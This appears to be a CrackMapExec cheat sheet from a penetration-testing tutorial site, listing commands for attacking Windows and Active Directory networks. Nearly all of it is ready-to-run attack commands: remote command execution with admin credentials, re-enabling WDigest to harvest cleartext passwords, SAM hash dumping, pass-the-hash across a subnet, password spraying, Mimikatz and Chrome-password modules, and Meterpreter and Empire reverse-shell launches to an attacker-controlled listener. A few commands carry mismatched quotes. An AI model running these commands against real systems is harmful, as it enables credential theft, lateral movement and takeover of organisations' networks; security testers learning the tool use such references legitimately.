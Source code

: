 [source](https://www.ivoidwarranties.tech/posts/pentesting-tuts/cme/crackmapexec-cheatsheet/}

### crackmapexec examples

##### Network Enumeration
```
crackmapexec 192.168.10.0/24
```

##### Command Execution
```
crackmapexec 192.168.10.11 -u Administrator -p 'P@ssw0rd' -x whoami

crackmapexec 192.168.215.104 -u 'Administrator' -p 'PASS' -x 'net user Administrator /domain' --exec-method smbexec
```
##### execute PowerShell commands using the -X flag:
```
#~ crackmapexec 192.168.10.11 -u Administrator -p 'P@ssw0rd' -X '$PSVersionTable'
```
##### Key Commands

##### Checked for logged in users
```
crackmapexec 192.168.215.104 -u 'Administrator' -p 'PASS' --lusers
```

##### Using Local Auth

Allows you to use local accounts rather than domain creds.
```
crackmapexec 192.168.215.138 -u 'Administrator' -p 'PASSWORD' --local-auth
```
##### Enumerating Shares
```
crackmapexec 192.168.215.138 -u 'Administrator' -p 'PASSWORD' --local-auth --shares
```
##### WDigest Enable/Disable

This allows us to re-enable the WDigest provider and dump clear-text credentials from LSA memory
```
crackmapexec 192.168.215.104 -u 'Administrator' -p 'PASS' --local-auth --wdigest enable
crackmapexec 192.168.215.104 -u 'Administrator' -p 'PASS' --local-auth --wdigest disable
```
##### Password Policy

One useful query enumerates the domain’s password policy including complexity requirements
```
crackmapexec 192.168.215.104 -u 'Administrator' -p 'PASS --pass-pol
```
##### RID Bruteforcing

you can use the rid-brute option to enumerate all AD objects including users and groups by guessing every resource identifier (RID), which is the ending set of digits to a security identifier (SID). 
```
crackmapexec 192.168.215.104 -u 'Administrator' -p 'PASS --rid-brute
```
##### Top Credential Attacks
Dumping the local SAM hashes
```
crackmapexec 192.168.215.104 -u 'Administrator' -p 'PASS' --local-auth --sam
```
##### Passing-the-Hash against subnet

Login to all subnet machines via smb with admin + hash. By using the –local-auth and a found local admin password this can be used to login to a whole subnets smb enabled machines with that local admin pass/hash.
```
cme smb 172.16.157.0/24 -u administrator -H 'aad3b435b51404eeaa35b51404ee:5509de4fa6e8d9f4a61100e51' --local-auth
```
##### NULL Sessions

You can log in with a null session by using '’ as the username and/or password

Examples:
```
crackmapexec smb <target(s)> -u '' -p ''
```
##### Brute Forcing & Password Spraying

We can do this by pointing crackmapexec at the subnet and passing the creds:

##### SMB Login Example
```
crackmapexec 10.0.2.0/24 -u ‘admin’ -p ‘P@ssw0rd’
```
##### Bruteforcing examples

Examples:
```
crackmapexec <protocol> <target(s)> -u username1 -p password1 password2

crackmapexec <protocol> <target(s)> -u username1 username2 -p password1

crackmapexec <protocol> <target(s)> -u ~/file_containing_usernames -p ~/file_containing_passwords

crackmapexec <protocol> <target(s)> -u ~/file_containing_usernames -H ~/file_containing_ntlm_hashes
```
##### Modules
Listing Modules
```
crackmapexec -L
[*] empire_exec          Uses Empire's RESTful API to generate a launcher for the specified listener and executes it
[*] shellinject          Downloads the specified raw shellcode and injects it into memory using PowerSploit's Invoke-Shellcode.ps1 script
[*] rundll32_exec        Executes a command using rundll32 and Windows's native javascript interpreter
[*] com_exec             Executes a command using a COM scriptlet to bypass whitelisting
[*] tokenrider           Allows for automatic token enumeration, impersonation and mass lateral spread using privileges instead of dumped credentials
[*] mimikatz             Executes PowerSploit's Invoke-Mimikatz.ps1 script
[*] tokens               Enumerates available tokens using Powersploit's Invoke-TokenManipulation
[*] peinject             Downloads the specified DLL/EXE and injects it into memory using PowerSploit's Invoke-ReflectivePEInjection.ps1 script
[*] powerview            Wrapper for PowerView's functions
[*] mimikittenz          Executes Mimikittenz
[*] enum_chrome          Uses Powersploit's Invoke-Mimikatz.ps1 script to decrypt saved Chrome passwords
[*] metinject            Downloads the Meterpreter stager and injects it into memory using PowerSploit's Invoke-Shellcode.ps1 script
[*] eventvwr_bypass      Executes a command using the eventvwr.exe fileless UAC bypass
```
##### SMB Mimikatz module
```
sudo cme 192.168.215.104 -u 'Administrator' -p 'PASS' --local-auth -M mimikatz
```
Module options are specified with the -o flag. All options are specified in the form of KEY=value (msfvenom style)

Example:
```
cme <protocol> <target(s)> -u Administrator -p 'P@ssw0rd' -M mimikatz -o COMMAND='privilege::debug'
```
##### Modules - Enum_Chrome
```
sudo cme 192.168.215.104 -u 'Administrator' -p 'PASS' --local-auth -M enum_chrome
```
##### Modules - Enum_AV

Another piece of useful information CrackMapExec can gather is what anti-virus software is in use.
```
sudo cme 192.168.215.104 -u 'Administrator' -p 'PASS' --local-auth -m enum_avproducts
```
##### Getting Shells with CrackMapExec
Metasploit

Need to setup Http Reverse Handler in MsfConsole
```
sudo cme 192.168.215.104 -u 'Administrator' -p 'PASS' --local-auth -M met_inject -o LHOST=192.168.215.109 LPORT=5656 
```
##### Empire

Start RESTful API
```
 empire --rest --user empireadmin --pass gH25Iv1K68@^
```
Launch empire listener to target
```
sudo cme 192.168.215.104 -u Administrator -p PASSWORD --local-auth -M empire_exec -o LISTENER=CMETest
```
